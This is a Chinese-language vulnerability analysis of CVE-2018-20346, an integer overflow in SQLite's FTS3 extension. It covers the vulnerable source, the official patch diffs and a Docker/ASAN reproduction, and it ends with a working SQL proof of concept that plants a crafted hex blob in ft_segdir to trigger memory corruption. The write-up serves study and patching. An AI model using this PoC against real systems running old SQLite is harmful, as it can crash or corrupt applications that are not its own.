


# CVE-2018-20346 CWE-190 SQLite 整数溢出

## 漏洞背景

- **SQLite：** 一个轻量级的、嵌入式的关系型数据库管理系统，它不需要单独的服务器进程，也不需要复杂的配置。SQLite 直接在文件系统上存储数据，具有零配置、易于使用和适合小型应用的特点。它支持标准的 SQL 语句，提供良好的数据安全性，并且因其轻量级特性被广泛应用于桌面和移动应用开发中。
- **CWE-190（   Integer Overflow or Wraparound）**

## 漏洞原理

在处理 FTS3 索引时，没有充分检查内存边界和输入数据的大小，导致在处理术语前缀和后缀时，可能发生缓冲区溢出或内存访问越界。

## 漏洞定位

在 ext/fts3/fts3.c 文件，第 1812 行`fts3ScanInteriorNode`函数是 SQLite 中 FTS3 扩展（全文搜索）的一个内部函数，主要用于扫描 FTS3 索引的内部节点。

第 1862 行，尝试检查是否越界，但存在潜在问题。`&zCsr[nSuffix]` 实际上是计算了 `zCsr` 向前偏移 `nSuffix` 字节后的地址。此时，如果 `nSuffix` 非常大，可能会导致访问超出 `zEnd` 的内存，从而触发 缓冲区溢出 或 内存读取错误。

在第 1868 行，内存分配的大小是 `nPrefix + nSuffix` 的两倍，如果在之前 `nSuffix` 可能比剩余的内存大，且程序没有对这个值进行合理的检查，则会发生 整数溢出。

```c
static int fts3ScanInteriorNode(...){
  int rc = SQLITE_OK;             /* Return code */
  const char *zCsr = zNode;       /* Cursor to iterate through node */
  const char *zEnd = &zCsr[nNode];/* End of interior node buffer */
  char *zBuffer = 0;              /* Buffer to load terms into */
  int nAlloc = 0;                 /* Size of allocated buffer */
  int isFirstTerm = 1;            /* True when processing first term on page */
  sqlite3_int64 iChild;           /* Block id of child node to descend to */

  zCsr += sqlite3Fts3GetVarint(zCsr, &iChild);
  zCsr += sqlite3Fts3GetVarint(zCsr, &iChild);
  if( zCsr>zEnd ){
    return FTS_CORRUPT_VTAB;
  }
  
  while( zCsr<zEnd && (piFirst || piLast) ){
    int cmp;                      /* memcmp() result */
    int nSuffix;                  /* Size of term suffix */
    int nPrefix = 0;              /* Size of term prefix */
    int nBuffer;                  /* Total term size */

    if( !isFirstTerm ){
      zCsr += fts3GetVarint32(zCsr, &nPrefix);
    }
    isFirstTerm = 0;
    zCsr += fts3GetVarint32(zCsr, &nSuffix);
    
    assert( nPrefix>=0 && nSuffix>=0 );
// ***** 1862 行 *****
    if( &zCsr[nSuffix]>zEnd ){
      rc = FTS_CORRUPT_VTAB;
      goto finish_scan;
    }
    if( nPrefix+nSuffix>nAlloc ){
      char *zNew;
// ***** 1868 行 *****
      nAlloc = (nPrefix+nSuffix) * 2;
      zNew = (char *)sqlite3_realloc(zBuffer, nAlloc);
      if( !zNew ){
        rc = SQLITE_NOMEM;
        goto finish_scan;
      }
      zBuffer = zNew;
    }
    assert( zBuffer );
    memcpy(&zBuffer[nPrefix], zCsr, nSuffix);
    nBuffer = nPrefix + nSuffix;
    zCsr += nSuffix;

    cmp = memcmp(zTerm, zBuffer, (nBuffer>nTerm ? nTerm : nBuffer));
    if( piFirst && (cmp<0 || (cmp==0 && nBuffer>nTerm)) ){
      *piFirst = iChild;
      piFirst = 0;
    }

    if( piLast && cmp<0 ){
      *piLast = iChild;
      piLast = 0;
    }

    iChild++;
  };

  if( piFirst ) *piFirst = iChild;
  if( piLast ) *piLast = iChild;

 finish_scan:
  sqlite3_free(zBuffer);
  return rc;
}
```

## 漏洞修复


原文 `nAlloc` 使用该 `int` 类型,在计算大型缓冲时可能导致整数溢出。 改变 `nAlloc` 类型为 `i64` 以确保在处理更大的内存分配时能够安全地容纳更大的值。 同时,总和 `nPrefix + nSuffix` ,避免整数溢出的风险。

```diff
Index: ext/fts3/fts3.c
==================================================================
--- ext/fts3/fts3.c
+++ ext/fts3/fts3.c
@@ -1819,11 +1819,11 @@
 ){
   int rc = SQLITE_OK;             /* Return code */
   const char *zCsr = zNode;       /* Cursor to iterate through node */
   const char *zEnd = &zCsr[nNode];/* End of interior node buffer */
   char *zBuffer = 0;              /* Buffer to load terms into */
-  int nAlloc = 0;                 /* Size of allocated buffer */
+  i64 nAlloc = 0;                 /* Size of allocated buffer */
   int isFirstTerm = 1;            /* True when processing first term on page */
   sqlite3_int64 iChild;           /* Block id of child node to descend to */
 
   /* Skip over the 'height' varint that occurs at the start of every 
   ** interior node. Then load the blockid of the left-child of the b-tree
@@ -1857,18 +1857,18 @@
     }
     isFirstTerm = 0;
     zCsr += fts3GetVarint32(zCsr, &nSuffix);
     
     assert( nPrefix>=0 && nSuffix>=0 );
-    if( &zCsr[nSuffix]>zEnd ){
+    if( nPrefix>zCsr-zNode || nSuffix>zEnd-zCsr ){
       rc = FTS_CORRUPT_VTAB;
       goto finish_scan;
     }
-    if( nPrefix+nSuffix>nAlloc ){
+    if( (i64)nPrefix+nSuffix>nAlloc ){
       char *zNew;
-      nAlloc = (nPrefix+nSuffix) * 2;
-      zNew = (char *)sqlite3_realloc(zBuffer, nAlloc);
+      nAlloc = ((i64)nPrefix+nSuffix) * 2;
+      zNew = (char *)sqlite3_realloc64(zBuffer, nAlloc);
       if( !zNew ){
         rc = SQLITE_NOMEM;
         goto finish_scan;
       }
       zBuffer = zNew;
```

添加指针抵消检查以确保 `nPrefix` 和 `nSuffix` 访问节点数据时不超过预期范围。

```diff
Index: ext/fts3/fts3_write.c
==================================================================
--- ext/fts3/fts3_write.c
+++ ext/fts3/fts3_write.c
@@ -1372,19 +1372,23 @@
   
   /* Because of the FTS3_NODE_PADDING bytes of padding, the following is 
   ** safe (no risk of overread) even if the node data is corrupted. */
   pNext += fts3GetVarint32(pNext, &nPrefix);
   pNext += fts3GetVarint32(pNext, &nSuffix);
-  if( nPrefix<0 || nSuffix<=0 
-   || &pNext[nSuffix]>&pReader->aNode[pReader->nNode] 
+  if( nSuffix<=0 
+   || (&pReader->aNode[pReader->nNode] - pNext)<nSuffix
+   || nPrefix>pReader->nTermAlloc
   ){
     return FTS_CORRUPT_VTAB;
   }
 
-  if( nPrefix+nSuffix>pReader->nTermAlloc ){
-    int nNew = (nPrefix+nSuffix)*2;
-    char *zNew = sqlite3_realloc(pReader->zTerm, nNew);
+  /* Both nPrefix and nSuffix were read by fts3GetVarint32() and so are
+  ** between 0 and 0x7FFFFFFF. But the sum of the two may cause integer
+  ** overflow - hence the (i64) casts.  */
+  if( (i64)nPrefix+nSuffix>(i64)pReader->nTermAlloc ){
+    i64 nNew = ((i64)nPrefix+nSuffix)*2;
+    char *zNew = sqlite3_realloc64(pReader->zTerm, nNew);
     if( !zNew ){
       return SQLITE_NOMEM;
     }
     pReader->zTerm = zNew;
     pReader->nTermAlloc = nNew;
@@ -1402,11 +1406,11 @@
 
   /* Check that the doclist does not appear to extend past the end of the
   ** b-tree node. And that the final byte of the doclist is 0x00. If either 
   ** of these statements is untrue, then the data structure is corrupt.
   */
-  if( &pReader->aDoclist[pReader->nDoclist]>&pReader->aNode[pReader->nNode] 
+  if( (&pReader->aNode[pReader->nNode] - pReader->aDoclist)<pReader->nDoclist
    || (pReader->nPopulate==0 && pReader->aDoclist[pReader->nDoclist-1])
   ){
     return FTS_CORRUPT_VTAB;
   }
   return SQLITE_OK;
@@ -3725,25 +3729,30 @@
     if( bFirst==0 ){
       p->iOff += fts3GetVarint32(&p->aNode[p->iOff], &nPrefix);
     }
     p->iOff += fts3GetVarint32(&p->aNode[p->iOff], &nSuffix);
 
+    if( nPrefix>p->iOff || nSuffix>p->nNode-p->iOff ){
+      return SQLITE_CORRUPT_VTAB;
+    }
     blobGrowBuffer(&p->term, nPrefix+nSuffix, &rc);
     if( rc==SQLITE_OK ){
       memcpy(&p->term.a[nPrefix], &p->aNode[p->iOff], nSuffix);
       p->term.n = nPrefix+nSuffix;
       p->iOff += nSuffix;
       if( p->iChild==0 ){
         p->iOff += fts3GetVarint32(&p->aNode[p->iOff], &p->nDoclist);
+        if( (p->nNode-p->iOff)<p->nDoclist ){
+          return SQLITE_CORRUPT_VTAB;
+        }
         p->aDoclist = &p->aNode[p->iOff];
         p->iOff += p->nDoclist;
       }
     }
   }
 
   assert( p->iOff<=p->nNode );
-
   return rc;
 }
 
 /*
 ** Release all dynamic resources held by node-reader object *p.
```

## 影响版本


SQLite <= 3.25.2

## 环境搭建

启动 Docker 环境，SQLite 版本为 3.22.0，其中在编译时开启了 ASAN 内存检测

```txt
NIST:NVD   Base Score:8.1 HIGH   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:sqlite:sqlite:3.22.0:*:*:*:*:*:*:*
```



## 漏洞复现

进入容器命令行，执行 PoC 文件，可以看到程序崩溃，且 AddressSanitizer 检测到段错误（SIGSEGV），并指出这是由 内存写入操作 导致。

```bash
docker exec -it sqlite-3.22.0 sqlite3 test_db ".read CVE-2018-20346-PoC.sql"
```



## PoC分析

```sql
CREATE VIRTUAL TABLE ft USING fts3;

INSERT INTO ft VALUES('aback');
INSERT INTO ft VALUES('abaft');
INSERT INTO ft VALUES('abandon');

UPDATE ft_segdir SET root = X'0005616261636B03010200FFFFFFFF070266740302020003046E646F6E03030200';

SELECT * FROM ft WHERE ft MATCH 'abandon';
```

使用恶意的 `UPDATE` 语句修改了 `ft_segdir` 表（FTS3 的一个内部表，用于存储索引的元数据）中的 `root` 字段。通过构造一个特定的十六进制数据（`X'0005616261636B03010200FFFFFFFF070266740302020003046E646F6E03030200'`）。

当查询执行时，FTS3 会解析 `root` 字段中的数据，并根据这些数据访问内存。由于数据已经被篡改，导致程序在处理术语时发生缓冲区溢出或指针越界。特别是在尝试访问内存时，程序会读取或写入不合法的内存区域，可能导致 内存损坏 或 崩溃。

## 参考链接


[NVD - CVE-2018-20346](https://nvd.nist.gov/vuln/detail/CVE-2018-20346)

[Crash Chrome 70 with the SQLite Magellan bug | Worth Doing Badly](https://worthdoingbadly.com/sqlitebug/)

[SQLite: Check-in [c255889bd9\]](https://sqlite.org/src/info/c255889bd95bd543)

